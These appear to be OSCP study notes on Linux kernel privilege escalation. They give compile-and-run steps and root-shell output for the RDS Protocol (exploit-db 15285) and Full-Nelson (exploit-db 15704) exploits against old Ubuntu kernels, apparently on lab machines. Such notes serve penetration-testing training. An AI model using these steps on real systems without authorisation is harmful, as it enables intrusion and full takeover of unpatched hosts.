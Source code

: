 ### <= 2.6.36-rc8 - 'RDS Protocol'

``` bash
www-data@ip:/tmp$ uname -a
Linux ip 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

[https://fareedfauzi.gitbook.io/oscp-notes/linux-post-exploitation/linux-exploitation#exploits-worth-running](https://fareedfauzi.gitbook.io/oscp-notes/linux-post-exploitation/linux-exploitation#exploits-worth-running)

[https://www.exploit-db.com/raw/15285](https://www.exploit-db.com/raw/15285)

``` bash
gcc -m32 15285.c -o 15285
```

``` bash
www-data@ip:/tmp$ ./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08c8c2c
 [+] Resolved default_security_ops to 0xc0773300
 [+] Resolved cap_ptrace_traceme to 0xc02f3dc0
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# id
uid=0(root) gid=0(root)
```

### <= 2.6.37 'Full-Nelson.

```
www-data@popcorn:/home/george$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/issue
cat /etc/issue
Ubuntu 9.10 \n \l
```

[https://www.exploit-db.com/exploits/15704](https://www.exploit-db.com/exploits/15704)

```
www-data@popcorn:/var/www$ gcc 15704.c -o 15704
gcc 15704.c -o 15704
www-data@popcorn:/var/www$ chmod +x 15704
chmod +x 15704
www-data@popcorn:/var/www$ ./15704
./15704
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf846a280
 [+] Resolved econet_ops to 0xf846a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Failed to set Econet address.
[*] Triggering payload...
[*] Got root!
# whoami
whoami
root
# 
```